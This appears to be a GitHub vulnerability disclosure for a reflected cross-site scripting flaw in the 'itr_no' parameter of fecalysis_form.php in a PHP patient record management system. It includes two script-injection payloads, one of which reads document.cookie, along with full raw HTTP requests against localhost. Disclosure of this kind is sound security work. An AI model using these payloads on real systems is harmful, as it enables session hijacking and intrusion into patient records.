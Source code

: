 # Health Center Patient Record Management System v1.0 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

BUG_Author: lacer

Vulnerability File: /HCPMS/admin/fecalysis_form.php

Parameter "itr_no" (GET), exists XSS vulnerability

Payload1:itr_no=1"><script>alert(111)</script>

```
GET /HCPMS/admin/fecalysis_form.php?itr_no=1%22%3E%3Cscript%3Ealert(111)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close
```

![image](https://github.com/Lacer23/bug_report/blob/main/picture/Lacer231.png)

Payload2:itr_no=1"><script>alert(document.cookie)</script>

```
GET /HCPMS/admin/fecalysis_form.php?itr_no=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close
```

![image](https://github.com/Lacer23/bug_report/blob/main/picture/Lacer232.png)
